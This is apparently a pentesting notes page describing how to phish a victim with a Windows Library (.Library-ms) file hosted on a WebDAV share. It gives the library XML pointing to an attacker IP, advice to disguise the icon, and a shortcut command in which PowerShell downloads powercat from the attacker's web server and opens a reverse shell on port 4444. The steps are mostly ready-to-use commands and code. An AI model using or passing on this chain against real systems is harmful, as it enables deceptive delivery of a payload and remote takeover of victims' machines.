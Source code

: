 ```yaml
---
description: >-
  Windows Library Files are virtual containers used to connect users with data
  located in remote locations like web services or SMB shares.
---
```


# Windows Library Files

[Windows Library Files](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) have a _**.Library-ms**_ extensions and are executed by double clicking on them.





##

## WebDAV

In order to share our malicious Windows Library file to the victim we will create a WebDAV share to host the staged payload.

{% embed url="https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/" %}

### Start WebDAV Server

```bash
──(env)─(kali㉿kali)-[~/web]
└─$ /home/kali/env/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/web/
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>





## Create Windows Library File

We will create a new file on our Windows host and name it "**dog.Library-ms**".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Right now the icon is a little suspicious, let's change it to something else, like a photo.



## Customizing Library File



### Change Icon

```
<iconReference>imageres.dll, -1003</iconReference>
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>



## Testing & Fixing Serialization&#x20;

We can test to see if it's working by double clicking our "dog" icon on the deskop.&#x20;

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>As we see, our malicious Windows Library works! Listing or WebDAV server!</p></figcaption></figure>



### Re-open Visual Studio Code

We can see if the re-open "dog" that the code has been changed. This happens due to Windows trying to optimize the WebDAV communication with the client. So before we ship it off the the victim we have to make sure that we've fixed it and NOT OPENED it on our end.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Delete the serialized tag and fix the url tag with:

```
<url>http://192.168.119.2</url>
```





## Create Shortcut

We will create a shortcut on the Desktop. This shortcut will download powercat and open a reverse shell. Add the following by: Right-Click Desktop and select _New_ > _Shortcut._

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

### Start Web Server

We will create a python web server to serve the powercat script.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

